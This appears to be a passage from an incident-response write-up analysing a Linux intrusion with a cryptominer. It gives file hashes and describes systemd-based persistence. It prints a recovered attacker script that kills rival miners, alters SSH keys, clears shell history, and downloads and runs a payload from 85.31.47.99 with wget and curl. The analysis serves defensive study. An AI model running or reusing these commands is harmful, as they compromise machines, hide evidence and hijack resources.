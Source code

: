 **SHA256:**
--The SHA256 hash provided (59474588a312b6b6e73e5a42a59bf71e62b55416b6c9d5e4a6e1c630c2a9ecd4) refers to the binary or script identified in this incident, useful for file identification in threat databases.

This would be followed by a sequence of commands from the script designed to extract valid user accounts from the system and manipulate data for further use in an attack, and another script performing several actions related to system manipulation, persistence, and concealment SHA256 hash provided (cbd686aa89749264552a9c11c3cf6a091991a123359ef2e5cafff3a0b05ef255). 

![image](https://github.com/user-attachments/assets/486d37f4-8483-4fb1-9ef0-cd033ce2211e)
```
bash
./network "rm -rf /var/tmp/Documents ; mkdir /var/tmp/Documents 2>&1
crontab -r
chattr -iae ~/.ssh/authorized_keys >/dev/null 2>&1
cd /var/tmp
chattr -iae /var/tmp/Documents/.diicot
pkill Opera
pkill cnrig
pkill java
killall java
pkill xmrig
killall cnrig
killall xmrig
cd /var/tmp/
mv /var/tmp/diicot /var/tmp/Documents/.diicot
mv /var/tmp/kuak /var/tmp/Documents/kuak
cd /var/tmp/Documents
chmod +x .*
/var/tmp/Documents/.diicot >/dev/null 2>&1 & disown
history -c
rm -rf .bash_history ~/.bash_history
rm -rf /tmp/cache
cd /tmp/
wget -q 85.31.47.99/.NzJjOTYwxx5/.balu || curl -O -s -L 85.31.47.99/.NzJjOTYwxx5/.balu
mv .balu cache
chmod +x cache
./cache >/dev/null 2>&1 & disown
history -c
rm -rf .bash_history ~/.bash_history"
```
Further investigation revealed a persistent threat targeting the system, leveraging services, scripts, and cron jobs to conduct malicious activities such as SSH brute-forcing and potential data mining. The activities centered around the /var/tmp/.update-logs/ directory and specifically the use of the .bisis executable, which facilitated network exploitation and unauthorized access. 

**Systemctl Service Manipulation**

![image](https://github.com/user-attachments/assets/d0d9a2d2-2f5c-431d-9c55-8c5b89fb583a)


The malicious actor set up the persistence by enabling a custom service through systemctl. This action ensures that the service, named "myservice", starts upon system boot, providing continuous execution of the malicious processes after reboots.
